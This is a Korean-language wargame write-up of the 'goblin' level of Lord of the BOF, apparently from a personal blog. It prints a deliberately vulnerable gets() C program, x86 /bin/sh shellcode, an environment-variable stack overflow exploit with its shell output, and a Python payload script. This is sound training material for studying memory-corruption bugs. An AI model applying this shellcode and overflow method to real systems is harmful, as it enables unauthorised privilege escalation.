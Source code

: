 ```yaml
---
title: "[LOB]Level03. goblin"
tags: [LOB, writeup]
author: eli_ez3r
key: 20180828
modify_date: 2024-04-24
article_header:
  type: cover
  image:
    src: /assets/img/hackerschool_logo.png

---
```

[+ stdin](#){:.button.button--outline-success.button--pill}
> cobolt / hacking exposed

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```

------

### 0x01. Static Analysis

16byte크기의 buffer배열을 선언하고 gets함수를 이용하여 buffer에 값을 입력받아 저장한다.

cobolt 문제와 다른점은 cobolt에서는 main함수의 argv로 사용자에게 입력값을 받았다면, 이 문제는 gets를 이용하여 사용자에게 입력값을 받는다.

따라서 값을 넘겨주는 방식의 차이만 있을 뿐 앞 문제와 풀이 과정은 동일하다.

gets를 이용하여 사용자가 입력한 값을 buffer배열로 복사할때 복사되는 크기가 정해져있지 않아 **BoF(Buffer OverFlow) 취약점**이 존재한다.
{:.info}

------

### 0x02. Dynamic Analysis

buffer배열의 크기가 16Byte로 Shellcode보다 크기가 작으므로 환경변수를 이용하여 풀이한다.

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/03.goblin/image-20180828135809460.png" width="800px">{:.rounded.shadow}

`shellcode` 환경변수에 Shellcode를 넣는다.

<br>

```c
//env.c
main(){
    printf("0x%08x\n", getenv("shellcode") );
}
```

```shell
[cobolt@localhost cobolt]$ gcc -o env env.c
[cobolt@localhost cobolt]$ ./env
0xbfffff3b
```

`shellcode` 환경변수의 주소를 구하는 프로그램을 만들어 주소를 구해온다. (0xbfffff3b)

**[!] gdb에서 run 명령 시 user input 주는 방법 1**  
1) 입력하고나 하는 문자열을 파일로 생성  
$ python -c 'print "A"*10>tmp  
1) gdb에서 run 명령어 실행 시 파일 내용 입력   
(gdb) r<tmp   
{:.info}

**[!] gdb에서 run 명령 시 user input 주는 방법 2**   
1) 스크립트 실행 결과를 임시파일 생성 후 바로 임시파일의 내용 입력  
(gdb) r \`python -c 'print "A"*10'>tmp\`<tmp
{:.info}


-----

### 0x03. Exploit

여기서 한번 생각해야 할 점은, Cobolt문제는 프로그램의 인자값으로 값을 넘겨주기 때문에 프로그램을 실행할때 프로그램 이름 뒤에 인자로 Payload를 넘겨주면됐다.

하지만 이번 문제는 프로그램 내부에서 입력값을 받기 때문에 같은 방법으로는 Payload를 넘겨줄 수 없다.

따라서 Pipe('\|')를 사용해야 한다. (Pipe명령어는 왼쪽 **표준출력**을 오른쪽에 **표준입력**으로 넘겨주는 역할을 한다.)

표준입력으로 넘겨주어야 하기 때문에 `cat` 와 `;`명령어를 함께 사용해야 한다. (FTZ 12번 문제를 풀었다면 쉽게 이해할 수 있을 것이다.)

```shell
[cobolt@localhost cobolt]$ (python -c 'print "A"*20+"\x3b\xff\xff\xbf"';cat)|./goblin
AAAAAAAAAAAAAAAAAAAA;���
id
uid=502(cobolt) gid=502(cobolt) euid=503(goblin) egid=503(goblin) groups=502(cobolt)
my-pass
euid = 503
hackers proof
```

> Cobolt문제와 풀이방법이 동일하므로 상세설명은 생략했다.

-----

### 0x04. 정리

Cobolt 문제에서 BoF 취약점이 존재했던 strcpy함수 외에도 gets함수도 입력값 크기 검증이 없기때문에 동일하게 BoF 취약점이 존재하는 것을 확인할 수 있는 문제였다.

그리고 프로그램 내부에서 사용자 입력값을 받을 때 어떻게 입력값을 넘겨주어야 하는지도 알게되는 문제였다.

-----

```python
#ex.py
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/cobolt/goblin"

shellcode_env_addr = 0xbffffc33

payload = "\x90"*20
payload = append(p32(shellcode_env_addr))

print payload
```

```
(python ex.py;cat)|./goblin
```

-----

